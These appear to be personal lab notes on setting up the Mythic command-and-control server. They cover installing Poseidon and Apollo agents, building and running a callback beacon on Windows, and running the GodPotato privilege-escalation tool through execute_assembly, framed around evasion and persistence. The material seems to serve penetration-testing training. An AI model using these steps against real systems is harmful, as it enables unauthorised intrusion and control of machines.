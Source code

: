 
Mythic is a C2 server, used to deploy and control agents often used for AV evasion or persistence. 

## Installing Mythic

```bash
# Install docker
sudo apt update -y
sudo apt install docker -y
sudo apt install docker.io -y
sudo apt install docker-compose -y

# Git clone
git clone https://github.com/its-a-feature/Mythic
cd Mythic

# We need to make the binary, from the makefile in the Mythic directory.
sudo make
```

Now we can run Mythic for the first time
```bash
# Run Mythic for the first time
sudo -E ./mythic-cli start

# The config file is stored here if we want to modify it
vi Mythic/.env

# We need to install agents
# We'll start with Poseidon, used for Mac and Linux
sudo ./mythic-cli install github https://github.com/MythicAgents/Poseidon

# Install Apollo for use on Windows
sudo ./mythic-cli install github https://github.com/MythicAgents/Apollo

# We'll also need to install the http profile.
sudo ./mythic-cli install github https://github.com/MythicC2Profiles/http
```
The 'installed services' tab is important, we can see what all is installed.
![[Pasted image 20250526215523.png]]
## Web Interface
This is where can manage a lot of things. It's accessed at
`https://127.0.0.1:7443` by default
We'll find our admin credentials in the .env file
```bash
cat Mythic/.env | grep -i 'user'
cat Mythic/.env | grep -i 'password'

# If we wanted to, we could modify these, then restart Mythic
sudo ./mythic-cli restart
```

We can click 'Create Your First Payload'
![[Pasted image 20250526215029.png]]
We can leave most of this stuff unchanged, except maybe statically compile the payload.
Additionally, changing the callback details is necessary

![[Pasted image 20250526215701.png]]
We should be able to use our IP here, and port 80 is the default port. Even though we're not using HTTP/S, the traffic itself will be encrypted.
![[Pasted image 20250526215905.png]]
We can see our page on the 'payloads' page
![[Pasted image 20250526220223.png]]

We can just download and execute it. My first ever C2 beacon callback.
![[Pasted image 20250526224612.png]]


## Windows Beacon
Run it in a good directory (C:\Windows\Tasks), (C:\Users\Public). 

```powershell
Start-Process beacon.exe
```



# Useful Beacon Commands
## Register Assembly
We can put dotnet binaries into the agent. This is an opsec effective way of executing binares

N
```
register_assembly GodPotato-NET4.exe
execute_assembly -Assembly GodPotato-NET4.exe -Arguments "-cmd 'c:\users\public\taskmanager.exe'"
```

## Download/Upload
Self explanatory

## Run
Runs an executable. A command might look like
```
/prolab/cybernetic/ligolo
```
## References
https://redsiege.com/blog/2023/06/introduction-to-mythic-c2/

